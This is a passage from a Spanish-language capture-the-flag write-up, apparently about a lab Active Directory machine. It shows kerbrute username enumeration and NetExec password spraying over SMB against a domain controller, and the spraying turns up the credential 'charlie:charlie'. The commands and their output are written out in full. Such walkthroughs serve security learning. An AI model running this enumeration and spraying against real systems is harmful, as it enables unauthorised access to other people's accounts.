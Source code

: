 Y encontramos algunos usuarios.
```console
$ /opt/kerbrute userenum --dc 192.168.182.4 -d soupedecode.local /opt/SecLists/Usernames/xato-net-10-million-usernames.txt

    __             __               __     
   / /_____  _____/ /_  _______  __/ /____ 
  / //_/ _ \/ ___/ __ \/ ___/ / / / __/ _ \
 / ,< /  __/ /  / /_/ / /  / /_/ / /_/  __/
/_/|_|\___/_/  /_.___/_/   \__,_/\__/\___/                                        

Version: v1.0.3 (9dad6e1) - 10/03/24 - Ronnie Flathers @ropnop

2024/10/03 14:49:27 >  Using KDC(s):
2024/10/03 14:49:27 >   192.168.182.4:88

2024/10/03 14:49:27 >  [+] VALID USERNAME:       admin@soupedecode.local
2024/10/03 14:49:27 >  [+] VALID USERNAME:       charlie@soupedecode.local
2024/10/03 14:49:27 >  [+] VALID USERNAME:       Charlie@soupedecode.local
2024/10/03 14:49:28 >  [+] VALID USERNAME:       administrator@soupedecode.local
2024/10/03 14:49:28 >  [+] VALID USERNAME:       Admin@soupedecode.local
2024/10/03 14:49:32 >  [+] VALID USERNAME:       Administrator@soupedecode.local
2024/10/03 14:49:32 >  [+] VALID USERNAME:       CHARLIE@soupedecode.local
```

Los que mas me llaman la atención son `admin` y `charlie`, así que vamos a crearnos una lista usuarios con estos dos usuarios.

Haciendo password spraying con estos usuarios encontramos una credencial.
`charlie:charlie`
```console
$ nxc smb 192.168.182.4 -u users.txt -p users.txt  --continue-on-success
SMB         192.168.182.4   445    DC01             [*] Windows Server 2022 Build 20348 x64 (name:DC01) (domain:SOUPEDECODE.LOCAL) (signing:True) (SMBv1:False)
SMB         192.168.182.4   445    DC01             [-] SOUPEDECODE.LOCAL\admin:admin STATUS_LOGON_FAILURE
SMB         192.168.182.4   445    DC01             [-] SOUPEDECODE.LOCAL\charlie:admin STATUS_LOGON_FAILURE
SMB         192.168.182.4   445    DC01             [-] SOUPEDECODE.LOCAL\Administrator:admin STATUS_LOGON_FAILURE
SMB         192.168.182.4   445    DC01             [-] SOUPEDECODE.LOCAL\admin:charlie STATUS_LOGON_FAILURE
SMB         192.168.182.4   445    DC01             [+] SOUPEDECODE.LOCAL\charlie:charlie 
SMB         192.168.182.4   445    DC01             [-] SOUPEDECODE.LOCAL\Administrator:charlie STATUS_LOGON_FAILURE
SMB         192.168.182.4   445    DC01             [-] SOUPEDECODE.LOCAL\admin:Administrator STATUS_LOGON_FAILURE
SMB         192.168.182.4   445    DC01             [-] SOUPEDECODE.LOCAL\Administrator:Administrator STATUS_LOGON_FAILURE
```

La verdad que bastante fácil para ser una máquina de dificultad media por ahora.

# Authenticated SMB Enumeration
